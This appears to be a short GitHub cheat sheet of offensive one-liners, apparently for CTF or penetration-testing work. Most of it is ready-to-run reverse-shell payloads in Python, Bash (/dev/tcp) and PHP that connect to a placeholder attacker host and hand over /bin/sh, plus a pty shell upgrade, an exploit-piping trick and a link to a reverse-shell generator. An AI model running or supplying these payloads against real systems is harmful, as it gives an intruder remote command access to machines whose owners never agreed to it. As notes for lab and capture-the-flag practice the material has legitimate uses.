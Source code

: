
# Useful Scripts & Commands 🧰

## Scripts:

- [Revshell generator](https://github.com/AmitNiz/useful_stuff/blob/master/scripts/revshell_generator.py)

## Commands:

### Python 

- Convert numbers into a string in hex format (0x prefix with zero padding): `"{:#04x}.format(n)"`

- Print an address in little endian:
      
       python -c "import struct; print(struct.pack('<I',0xdeadbeef))"


- Oneline python revshell:


      python -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("{HOST_IP}",{PORT}));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1); os.dup2(s.fileno(),2);p=subprocess.call(["/bin/sh","-i"]);'
        
- Shell upgrade: 

      python -c "import pty;pty.spawn('/bin/bash')"

### Bash

- Maintain shell after running an exploiting: `(./exploit | cat ) | ./vuln`
- Simple Bash revshell: 
    
      bash -i >& /dev/tcp/{HOST_IP}/{PORT} 0>&1

### PHP

- Oneline revshell: 

      php -r '$sock=fsockopen("{HOST_IP}",80);exec("/bin/sh -i <&3 >&3 2>&3");'

